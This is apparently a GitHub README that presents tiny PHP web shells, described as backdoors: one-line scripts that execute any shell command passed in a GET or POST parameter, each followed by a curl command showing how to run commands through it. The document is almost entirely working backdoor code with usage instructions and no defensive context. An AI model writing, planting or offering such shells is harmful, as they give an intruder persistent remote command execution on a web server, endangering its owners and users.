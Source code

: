 # Tiny PHP Shell
An example for a minimal php get/post shell/backdoor.

## Tiny PHP GET shell
#### get.php:
```php
<?=`$_GET[1]`;
```

#### Usage:
```
curl example.com/get.php?1=ls+-al
```

## Tiny PHP POST shell

#### post.php:
```php
<?=`$_POST[1]`;
```

#### Usage:
```
curl example.com/post.php -d '1=ls+-al'
```
